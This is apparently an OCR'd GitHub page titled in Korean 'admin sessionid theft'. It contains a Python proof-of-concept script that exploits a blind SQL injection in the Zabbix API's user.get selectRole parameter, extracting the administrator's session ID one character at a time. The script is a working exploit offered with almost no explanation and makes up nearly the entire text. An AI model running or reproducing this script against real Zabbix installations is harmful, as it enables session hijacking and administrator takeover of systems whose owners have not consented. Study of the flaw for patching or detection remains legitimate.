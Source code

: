 
1. **admin sessionid 탈취**

```python
import requests
url = "http://localhost/zabbix/api_jsonrpc.php"
auth_token = "775b26ca0a9cb0e549daeb031f92a37b" 
headers = {
    "Content-Type": "application/json"
}

def extract_session_id():
    session_id = ""
    print("[*] Extracting sessionid from sessions table...")

    for i in range(1, 50):  
        found_char = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            payload = {
                "jsonrpc": "2.0",
                "method": "user.get",
                "params": {
                    "selectRole": [
                        f"readonly AND IF(SUBSTRING((SELECT sessionid FROM sessions where userid=1 LIMIT 1),{i},1)='{char}',1,0)"
                    ],
                    "userids": ["1"]
                },
                "id": 1,
                "auth": auth_token
            }
            response = requests.post(url, json=payload, headers=headers)
            result = response.json()

            try:
                
                key = f"r.readonly AND IF(SUBSTRING((SELECT sessionid FROM sessions where userid=1 LIMIT 1),{i},1)='{char}',1,0)"
                if result["result"][0]["role"].get(key) == "1":
                    session_id += char
                    print(f"[*] Found character: {char}")
                    found_char = True
                    break
            except KeyError:
                pass
        if not found_char:
            break
    print(f"[*] Extracted sessionid: {session_id}")
    return session_id
if __name__ == "__main__":
    extract_session_id()
```
